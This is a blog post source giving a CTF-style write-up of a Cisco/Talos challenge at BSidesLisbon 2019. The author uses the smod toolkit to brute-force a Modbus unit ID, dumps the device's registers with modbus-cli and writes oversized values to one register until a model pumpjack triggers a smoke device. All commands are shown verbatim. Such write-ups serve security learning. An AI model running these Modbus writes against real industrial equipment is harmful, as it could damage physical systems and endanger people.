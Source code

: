 ```yaml
---
layout: post
title:  "Make it smoke! Cisco Challenge Write-up"
categories: [infosec, iot]
tags: [bsideslisbon, infosec, iot, cisco]
description: "Write-up of a sidequest challenge by Cisco/Talos during BSidesLisbon 2019"
---
```


BSides is the biggest security-wise event in Portugal, with 2 days of talks, workshops, a CTF competition, and lots more. During BSides some *sidequests* ranging from raffles to challenges appear that can give you prizes*!* This is a write-up of one of those challenges by Cisco/Talos.

<!--more-->

## The Challenge

![Make it Smoke!](/images/bsideslx19/header.png)

In the booth of Cisco/Talos we were presented with the following scenario (as it can be seen in the picture):
1. An access point (AP) named `security` with the password `cisco12345`.
2. A 3d-printed pumpjack[^1].
3. Some kind of controller based on Arduino.
4. The objective was to make it smoke somehow.

## Preliminaries

First thing first, connect to the network and do a quick network and port scan. Since it was an AP for everyone that wanted to do the challenge, several IP's showed up, but only one interesting, the `10.10.10.1` with the port `502` open.

As per Siemens documentation: *By default, the protocol uses Port `502` as local port in the Modbus server*[^2]. Thus we are probably faced with something that speaks *Modbus* protocol.

With a little of search you can find a lot of *Modbus* protocol clients in the wild, as well as some *offensive* toolkits. 

## Making it smoke!

Using the [smod-1 by theralfbrown](https://github.com/theralfbrown/smod-1) toolkit I was able to connect to the Modbus system and interact with it. 

{% highlight bash %}
$ python smod.py
SMOD > use modbus/scanner/uid
SMOD modbus(uid) > set RHOST 10.10.10.1
SMOD modbus(uid) > exploit
[+] Module Brute Force UID Start
[+] Start Brute Force UID on : 10.10.10.1
[+] UID on 10.10.10.1 is : 10
{% endhighlight %}

Now I did know the UID of the Modbus, however even after exploring the DoS capabilities and *all* the reader modules I was not getting anywhere close to make it smoke.

So, after exploring a little more one Github I found out this really nice [modbus-cli by tallakt](https://github.com/tallakt/modbus-cli).

Even if it was not implemented with an *offensive* mindset like the previous tool, it allowed us to read, write and **dump** the memory of a *Modbus* device. Using it we were able to read random parts of the memory, as example, reading five words from the device starting from address `%MW100` (which corresponds to address `400101`).

{% highlight bash %}
$ modbus read 10.10.10.1 %MW100 5
%MW100          0
%MW101          0
%MW102          0
%MW103          0
%MW104          0
{% endhighlight %}

After trying to read random places of the memory using this tool and finding nothing but zero values, and decided to just *dump* everything into a file  (the operation took around 20 seconds).

{% highlight bash %}
$ modbus read --output mybackup.yml 10.10.10.1 400001 1000
{% endhighlight %}

After dumping all the memory into a file, looking into the file:

{% highlight bash %}
$ cat mybackup.yml 
---
:host: 10.10.10.1
:port: 502
:slave: 1
:offset: '400001'
:data:
- 0
- 0
- 0
- 0
- 0
- 0
- 5000
- 0
-- show more --
{% endhighlight %}

The file keep going on, with a lot of zero's and a lot of random values. I guess that those random value were the result of all the participants trying to *pwn* it. 

However, that seventh value caught my attention because it was a simple number. Maybe that was the speed of the rotation mechanism of the pumpjack, *maybe*.

Checking if the dump was correct, with the same tool we could read that specific part of the memory:

{% highlight bash %}
$ modbus read 10.10.10.1 400001 7
400001          0
400002          0
400003          0
400004          0
400005          0
400006          0
400007       8000
{% endhighlight %}

And yep, the value was still there, but a bit higher (and we could observe the pumpjack rotating more quickly).

So the next step was to try to write some higher value there:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 10000
{% endhighlight %}

And then, *higher*:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 18000
{% endhighlight %}

And this was it, the increase in the rotation speed of the pumpjack triggered the smoke device that was connected to the Arduino! 


![Running like hell!](/images/bsideslx19/final.png)

It was a fun challenge by Cisco and Talos. And *pwning* IoT devices is the real *sh*t*.


[^1]: [Pumpjack on Wikipedia](https://en.wikipedia.org/wiki/Pumpjack)
[^2]: [Which ports are released for Modbus/TCP communication](https://support.industry.siemens.com/cs/document/34010717/which-ports-are-released-for-modbus-tcp-communication-and-how-many-modbus-clients-can-communicate-with-a-simatic-s7-pn-cpu-as-modbus-server-?dti=0&lc=en-WW)
